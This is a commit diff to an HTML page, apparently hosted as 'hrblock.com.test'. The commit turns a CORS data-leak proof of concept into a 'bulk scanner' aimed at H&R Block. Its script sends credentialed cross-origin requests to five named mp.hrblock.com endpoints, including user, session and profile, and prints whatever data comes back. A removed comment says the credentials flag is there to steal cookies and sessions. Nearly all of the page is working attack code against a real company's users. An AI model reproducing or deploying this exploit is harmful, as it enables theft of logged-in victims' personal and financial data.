

Before and after one commit to akmalxpay-sudo/hrblock.com.test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-919 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,51 +1,58 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>CORS Takeover PoC - H&R Block</title>
+    <title>Bulk CORS Scanner - H&R Block</title>
     <style>
-        body { font-family: sans-serif; text-align: center; padding: 50px; background-color: #f4f4f4; }
-        .box { border: 2px solid #333; padding: 20px; background: #fff; border-radius: 10px; display: inline-block; }
-        #data { color: red; font-weight: bold; margin-top: 20px; word-wrap: break-word; max-width: 500px; }
+        body { font-family: sans-serif; padding: 20px; background-color: #1a1a1a; color: #00ff00; }
+        .box { border: 1px solid #00ff00; padding: 15px; margin-bottom: 10px; background: #000; border-radius: 5px; }
+        .success { color: #00ff00; font-weight: bold; }
+        .failed { color: #ff0000; }
+        button { padding: 10px 20px; background: #00ff00; color: #000; border: none; font-weight: bold; cursor: pointer; }
     </style>
 </head>
 <body>
 
-    <div class="box">
-        <h2>Security Testing: CORS Data Leak PoC</h2>
-        <p>Target: <code>mp.hrblock.com</code></p>
-        <button onclick="fetchData()">Fetch Sensitive Data</button>
+    <h2>H&R Block - Bulk API Scanner (PoC)</h2>
+    <p>Testing for Sensitive Data Leakage across multiple endpoints...</p>
+    <button onclick="startScan()">Start Bulk Scan</button>
 
-        <div id="status">Status: Waiting...</div>
-        <div id="data"></div>
-    </div>
+    <div id="results"></div>
 
     <script>
-        function fetchData() {
-            var target_url = "https://mp.hrblock.com/idl/hrb/idl";
-            var xhr = new XMLHttpRequest();
-            var statusDiv = document.getElementById("status");
-            var dataDiv = document.getElementById("data");
+        // In endpoints ko hum scan karenge
+        const endpoints = [
+            "https://mp.hrblock.com/idl/hrb/idl",
+            "https://mp.hrblock.com/idl/hrb/config",
+            "https://mp.hrblock.com/idl/hrb/user",
+            "https://mp.hrblock.com/idl/hrb/session",
+            "https://mp.hrblock.com/idl/hrb/profile"
+        ];
 
-            statusDiv.innerHTML = "Status: Sending Request...";
+        function startScan() {
+            const resultsDiv = document.getElementById("results");
+            resultsDiv.innerHTML = ""; // Clear old results
 
-            xhr.open("GET", target_url, true);
+            endpoints.forEach(url => {
+                var xhr = new XMLHttpRequest();
+                xhr.open("GET", url, true);
+                xhr.withCredentials = true; // Cookies use karne ke liye
 
-            // Sabse important line: Cookies aur Sessions churaane ke liye
-            xhr.withCredentials = true;
+                xhr.onreadystatechange = function() {
+                    if (xhr.readyState == 4) {
+                        const div = document.createElement("div");
+                        div.className = "box";
 
-            xhr.onreadystatechange = function() {
-                if (xhr.readyState == 4) {
-                    if (xhr.status == 200) {
-                        statusDiv.innerHTML = "Status: <span style='color:green;'>Success (Data Leaked!)</span>";
-                        dataDiv.innerHTML = "Leaked JSON: " + xhr.responseText;
-                        console.log("BOOM! Data:", xhr.responseText);
-                    } else {
-                        statusDiv.innerHTML = "Status: <span style='color:red;'>Failed (Status: " + xhr.status + ")</span>";
-                        dataDiv.innerHTML = "Check if your domain matches the vulnerable pattern.";
+                        if (xhr.status == 200) {
+                            div.innerHTML = `<span class="success">[FOUND] URL: ${url}</span><br>Data: ${xhr.responseText}`;
+                            console.log("Success on: " + url);
+                        } else {
+                            div.innerHTML = `<span class="failed">[FAILED] URL: ${url}</span> (Status: ${xhr.status})`;
+                        }
+                        resultsDiv.appendChild(div);
                     }
-                }
-            };
-            xhr.send();
+                };
+                xhr.send();
+            });
         }
     </script>
 </body>
```
